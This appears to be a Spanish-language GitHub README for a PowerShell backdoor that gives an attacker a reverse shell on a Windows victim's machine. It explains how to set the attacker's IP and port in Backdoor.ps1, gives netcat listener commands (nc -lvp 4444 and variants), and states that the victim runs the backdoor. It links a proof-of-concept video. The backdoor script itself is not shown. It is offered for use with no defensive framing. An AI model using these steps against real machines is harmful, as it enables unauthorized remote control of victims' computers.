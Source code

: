 # powershell-backdoor
Backdoor en Powershell para obtener una reverse shell

Uso:
Primero que nada antes de ejecutar el backdoor debemos de modificar ciertos parametros en el archivo Backdoor.ps1, las variables $address y $port hay que modificarlas, en $address hay que colocar la IP de la maquina atacante, y en $port hay que colocar el puerto por el cual se hara la conexion, y por el que el atacante estara a la escucha

$address = 'LA DIRECCION IP DEL ATACANTE'
$port = 'EL PUERTO POR EL QUE SE VA A REALIZAR LA CONEXION'

Luego el atacante va a estar a la escucha de una conexion por medio de netcat
nc -lvp "el puerto que se haya colocado"
Ejemplo:
nc -lvp 4444

O si no funciona puedes probar alguno de estos dos:
ncat -lvp 4444
netcat -lvp 4444

Y la victima va a ejecutar el backdoor en su maquina windows

PoC Backdoor Powershell:
https://user-images.githubusercontent.com/64616891/128221817-3fb9306b-8056-4839-b087-a22ff2e1d8e9.mp4

